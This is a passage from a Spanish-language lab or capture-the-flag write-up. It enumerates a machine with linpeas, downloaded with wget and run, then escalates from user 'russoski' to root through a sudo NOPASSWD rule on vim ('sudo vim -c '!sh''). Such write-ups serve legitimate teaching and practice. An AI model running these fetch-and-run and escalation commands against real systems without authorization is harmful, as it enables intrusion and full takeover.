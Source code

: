 ### Búsqueda de Información y Vulnerabilidades con Linpeas

Una vez dentro del sistema como usuario `russoski`, procedemos a buscar información y posibles vulnerabilidades utilizando la herramienta Linpeas. Linpeas es un script que ayuda a automatizar el proceso de enumeración durante las pruebas de penetración, facilitando la identificación de vectores de escalada de privilegios.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
chmod +x linpeas.sh 
./linpeas.sh | tee linpeas_output.txt
```

#### Hallazgos Clave de Linpeas

1. **Versión de Sudo**: Linpeas identifica la versión del comando sudo instalado en el sistema:
   - Sudo version 1.9.15p5

2. **Permiso de Ejecución sin Contraseña**: El usuario `russoski` tiene permisos configurados para ejecutar `vim` como root sin necesidad de contraseña:
   ```plaintext
   User russoski may run the following commands on 94f77d56cc59:
       (root) NOPASSWD: /usr/bin/vim
   ```

Este permiso es especialmente crítico ya que permite al usuario ejecutar comandos como root sin restricciones, lo que puede ser explotado para obtener una shell de root.

### Explotación de la Vulnerabilidad

Basándonos en la configuración encontrada, utilizamos `vim` para escalar privilegios hasta root de manera trivial. Siguiendo las instrucciones encontradas en 
🌐 [**Web oficial de HackTricks (Vulnerabilidad sudo-version)**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version/){:target="_blank"}

```bash
sudo vim -c '!sh'
```

Este comando abre `vim` y ejecuta un shell (`sh`) con privilegios de root a través de la opción `-c` que permite pasar comandos a `vim` al iniciar.

#### Confirmación de Privilegios de Root

Una vez dentro del shell de root, confirmamos nuestros privilegios:

```bash
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

Los comandos confirman que hemos escalado correctamente a root, mostrando el usuario `root` y su grupo correspondiente. Finalmente, exploramos el directorio root para identificar cualquier archivo sensible:
